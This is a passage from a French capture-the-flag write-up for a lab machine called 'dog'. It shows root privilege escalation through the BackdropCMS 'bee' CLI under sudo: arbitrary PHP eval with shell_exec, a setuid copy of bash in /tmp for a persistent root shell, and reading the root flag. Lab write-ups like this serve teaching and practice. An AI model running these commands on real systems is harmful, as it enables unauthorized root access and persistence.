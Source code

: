 `bee` est un outil CLI de BackdropCMS — il permet l'exécution de commandes PHP via l'argument `eval`.

### c) Exploitation

Exécution d'un code arbitraire :

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('whoami && id');"
```

Retour :

```
root
uid=0(root) gid=0(root)
```

Pour un shell persistant :

```bash
sudo /usr/local/bin/bee --root=/var/www/html eval "echo shell_exec('cp /bin/bash /tmp/bash && chmod u+s /tmp/bash');"
```

Puis :

```bash
/tmp/bash -p
whoami
# root
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        root@dog obtenu \\!
    </p>
</div>

Flag root :

```bash
cat /root/root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned\\!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag :</strong> /home/johncusack/user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag :</strong> /root/root.txt
            </p>
        </div>
    </div>
</div>
